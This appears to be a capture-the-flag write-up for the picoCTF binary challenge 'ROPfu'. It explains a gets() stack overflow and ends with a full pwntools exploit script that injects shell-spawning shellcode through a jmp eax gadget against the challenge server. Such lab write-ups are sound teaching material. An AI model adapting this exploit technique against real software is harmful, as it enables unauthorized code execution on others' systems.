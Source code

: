 ```yaml
---
title: "Ropfu"
date: 2025-10-21T22:45:55+05:30
draft: False
---
```



When I first cracked open the source for **ROPfu**, I was greeted with almost nothing. The binary was basically a single `gets()` call. That’s already a giant red flag: `gets()` is one of the classic unsafe functions in C, and here it’s basically handing us a buffer overflow on a silver platter.


## Step 1: Finding the Offset

Since the binary didn’t have any helper functions to directly leak `flag.txt`, the plan was clear: exploit the overflow and craft our own control flow.

Using **gdb-gef**, I generated a cyclic pattern with:

```
pattern create 200
```

and then after crashing the program, I used:

```
pattern offset $eip
```

This gave me an offset of **28**. Perfect—now I know exactly how many bytes it takes to overwrite EIP.


## Step 2: Scouting for Gadgets

The binary had no direct `system()` or file-read helper functions, so I needed to rely on Return-Oriented Programming (ROP). Using **ROPgadget**, I searched for jumps into registers:

```
ROPgadget --binary vuln | grep "jmp e"
```

The output was:

```asm
0x0805333b : jmp eax
0x080567f2 : jmp ebp
0x08061205 : jmp ebx
0x0804f63e : jmp ecx
0x0804a893 : jmp edi
0x08049bcc : jmp edx
0x080a6270 : jmp esi
```

Noticeably, nothing to directly pivot into `esp`. But the `jmp eax` stood out as the perfect *trampoline* because of the 32-bit calling conventions. The payload was already getting pushed to the `eax`. So if I could control `eax`, I could redirect execution into my own shellcode living on the stack.


## Step 3: First Payload Test

I built a simple test payload to confirm control:

```python
b"A"*28 + pwn.p32(0x0805333b) + b"C"*100
```

Here, `0x0805333b` is the `jmp eax`.

Inside **gdb**, I set a breakpoint at `0x0805333b` and stepped through execution. What I saw was interesting:

```asm
0xffffcd08    inc    ecx
0xffffcd09    inc    ecx
0xffffcd0a    inc    ecx
0xffffcd0b    inc    ecx   ; opcode of "inc ecx" = b"A"

0xffffcd0c    cmp    esi, DWORD PTR [ebx]
0xffffcd0e    add    eax, 0x43434308 ; junk instruction from our payload

0xffffcd13    inc    ebx
0xffffcd14    inc    ebx
0xffffcd15    inc    ebx   ; opcode of "inc ebx" = b"C"
```

So what happened? The injected address (`0x0805333b`) itself got treated as part of the shellcode, leading to corrupted flow. Essentially, junk bytes were messing with execution.


## Step 4: Skipping the Junk

The fix was simple but clever: insert a **short jump** to skip over the junk bytes. A quick search told me that `EB 08` represents a `jmp +8`.

To confirm in pwntools:

```python
>>> print(pwn.disasm(b"\xeb\x08"))
0:   eb 08     jmp    0xa
```

Perfect. So I shaved off 2 bytes of padding and slipped the short jump before the trampoline.

Payload now looked like this:

```python
b"A"*26 + b"\xeb\x08" + pwn.p32(0x0805333b) + b"C"*100
```

This way, when execution reaches our buffer, the short jump (`\xeb\x08`) skips over the junk and lands neatly into our controlled space.


## Step 5: Shellcode & Final Exploit

With execution flow stable, it was time to drop in actual shellcode. Pwntools makes this easy with its built-in Linux shell generator:

```python
pwn.shellcraft.i386.linux.sh()
```

Final exploit script:

```python
import pwn

rop_gadget = pwn.p32(0x0805333b)   # jmp eax
jmp_over_ins = b'\xeb\x08'         # short jump +8
shellcode = pwn.asm(pwn.shellcraft.i386.linux.sh())

payload = b"".join([
        b"\x90"*26,       # NOP sled
        jmp_over_ins, 
        rop_gadget,
        shellcode
    ])

with open("payload", "wb") as f:
    f.write(payload)

p = pwn.remote('saturn.picoctf.net', 53441)
p.sendline(payload)
p.interactive()
```




